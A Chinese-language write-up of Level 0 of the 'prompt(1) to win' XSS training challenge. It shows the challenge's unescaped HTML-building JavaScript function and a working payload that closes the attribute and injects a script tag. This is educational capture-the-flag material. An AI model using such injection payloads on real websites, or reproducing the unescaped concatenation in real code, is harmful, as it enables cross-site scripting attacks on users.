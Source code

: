 ## [[prompt(1) to win](http://prompt.ml)] [[Level 0 - warm up](http://prompt.ml/0)] [[解题报告](http://exp-blog.com/2019/03/18/pid-3613/)]

------

## 题目

```javascript
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
}
```

------

## 解题报告

水题。直接闭合双引号和标签即可注入。

payload : `"><script>prompt(1)</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2000%20-%20warm%20up/imgs/01.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
